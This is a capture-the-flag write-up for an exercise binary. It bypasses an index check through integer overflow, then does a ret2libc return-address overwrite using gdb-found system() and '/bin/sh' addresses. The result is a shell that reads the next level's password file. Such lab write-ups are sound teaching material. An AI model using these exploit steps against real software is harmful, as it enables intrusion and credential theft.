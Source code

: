 # Level07

## Vulnerability type:

Integer Overflow

## Walkthrough:

Users can interact with the program using three commands: `store`, `read`, and `quit`.

- `store` command allows users to input a number (`n`) and an index (`n2`). The program stores `n` at `buffer[n2 * 4]`.

- `read` command lets users read a number stored at a specified index.

- `quit` command terminates the program.

The challenge arises from restrictions placed on the `store` command. Specifically, the program forbids certain indices, where `index % 3 == 0`, and numbers starting with the byte `0xb7`.

To exploit this program, we need to bypass these limitations, allowing us to overwrite the return address of the `main` function and control program execution.

## Exploitation and payload:

### Integer overflow

We want to overwrite the address at `buffer[114 * 4]`. However, we can use the index `114` directly since `114 % 3 == 0`. To bypass this limitation, we must select a `index` that, when multiplied by 4, is equal to `456`. We can achieve this by using an integer overflow.
If we set the 32th bit of the number `114`, we get the number `2147483762`.

```c
index = (int)(2147483762 * 4) // index is equal to 114
```

Most importantly, `2147483762 % 3 != 0`.

### Ret2LibC

```sh
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
```

```sh
(gdb) i proc map
process 1707
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/users/level07/level07
         0x8049000  0x804a000     0x1000     0x1000 /home/users/level07/level07
         0x804a000  0x804b000     0x1000     0x2000 /home/users/level07/level07
        0xf7e2b000 0xf7e2c000     0x1000        0x0
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
        0xf7fd0000 0xf7fd4000     0x4000        0x0
        0xf7fda000 0xf7fdb000     0x1000        0x0
        0xf7fdb000 0xf7fdc000     0x1000        0x0 [vdso]
        0xf7fdc000 0xf7ffc000    0x20000        0x0 /lib32/ld-2.15.so
        0xf7ffc000 0xf7ffd000     0x1000    0x1f000 /lib32/ld-2.15.so
        0xf7ffd000 0xf7ffe000     0x1000    0x20000 /lib32/ld-2.15.so
        0xfffdd000 0xffffe000    0x21000        0x0 [stack]
(gdb) find 0xf7e2c000,0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
```

```sh
level07@OverRide:~$ ./level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: store
 Number: 4159090384 // system address 0xf7e6aed0
 Index: 2147483762 // 114
 Completed store command successfully
Input command: store
 Number: 4160264172 // "/bin/sh" address 0xf7f897ec
 Index: 116
 Completed store command successfully
Input command: quit
$ cat /home/users/level08/.pass
7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC
```
